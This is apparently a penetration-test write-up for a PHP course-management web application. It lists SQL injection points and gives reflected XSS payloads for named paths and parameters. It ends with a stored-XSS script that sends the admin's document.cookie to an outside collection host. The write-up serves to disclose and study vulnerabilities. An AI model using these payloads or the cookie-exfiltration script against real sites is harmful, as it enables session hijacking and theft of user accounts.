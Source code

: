 UNION based SQL Injection @ **cid** param.

<details><summary> PoC </summary></details> 
<br>

## Work/Assignment - `modules/work/work.php`

UNION based SQL Injection @ **id** param.

<details><summary> PoC </summary></details> 
<br>


## Courses Catalog - `modules/auth/opencourses.php`

Vulnerable at **fc** parameter to UNION based SQL Injection; no PoC.

# XSS

- Resources:
    1. [PayloadAllTheThings -- XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection),
    2. [XSSER tool](https://github.com/epsylon/xsser).

## Reflected
XSS injections can be performed in every URL path of the application by adding a slash and escaping the html element of $_SERVER[PHP_SELF] variable, which is most usually done via `"><script> alert('BOYKA') </script>`.

Some of the above are:
- `/modules/auth/courses.php/"><script>alert(1);</script>`
- `/modules/auth/listfaculte.php/"><script>alert(1);</script>`
- `/modules/auth/courhtmlses.php/"><script>alert(1);</script>`

But any path is vulnerable.

Additionally, the below reflected XSS vulnerability that is not relevant to the `PHP_SELF` vulnerability:

- newuser.php
    `/modules/auth/newuser.php?nom_form='><script>alert(1)</script>`

## Stored

The below is the script that attempts to exploit any stored XSS vulnerability to disclose the admin cookie.

```html
<script>
	document.location='http://melenetzon.puppies.chatzi.org/cookie_recv.php?biscuit='+document.cookie;
</script>
```
